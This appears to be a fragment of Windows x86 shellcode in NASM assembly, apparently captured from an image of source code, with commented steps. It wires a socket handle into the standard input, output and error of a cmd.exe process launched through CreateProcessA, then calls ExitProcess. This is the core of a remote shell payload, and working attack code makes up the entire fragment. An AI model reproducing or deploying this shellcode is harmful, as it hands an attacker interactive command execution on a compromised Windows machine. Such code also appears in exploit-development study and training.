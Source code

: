 ```nasm
push eax
xchg eax, edi
call dword [esi + 0x8]

; CreateProcessA shenanigans
push 0x61646d63                      ; "cmda"
sub dword [esp + 0x3], 0x61          ; "cmd"
mov edx, esp                         ; edx now pointer to our 'cmd' string

; set up the STARTUPINFO struct
push edi
push edi
push edi                             ; we just put our SOCKET_FD into the arg params for HANDLE hStdInput; HANDLE hStdOutput; and HANDLE hStdError;
xor ebx, ebx
xor ecx, ecx
add cl, 0x12                         
; we're going to throw 0x00000000 onto the stack 18 times, this will fill up both the STARTUPINFO and PROCESS_INFORMATION structs
; then we will retroactively fill them up with the arguments we need by using effective addressing relative to ESP like mov word [esp +]

looper: 
push ebx
loop looper

mov word [esp + 0x3c], 0x0101        ; set dwFlags arg in STARTUPINFO
mov byte [esp + 0x10], 0x44          ; cb member of the struct set to 68 decimal, size of struct
lea eax, [esp + 0x10]                ; eax now a pointer to STARTUPINFO

; Actually Calling CreateProcessA now
push esp                             ; pointer to PROCESS_INFORMATION
push eax                             ; pointer to STARTUPINFO
push ebx                             ; all NULLs
push ebx
push ebx
inc ebx                              ; bInheritHandles == True
push ebx
dec ebx
push ebx
push ebx
push edx                             ; pointer to 'cmd' 
push ebx

call dword [esi + 0xc]

; call ExitProcess
push ebx                             ; still null
call dword [esi + 0x10]
```
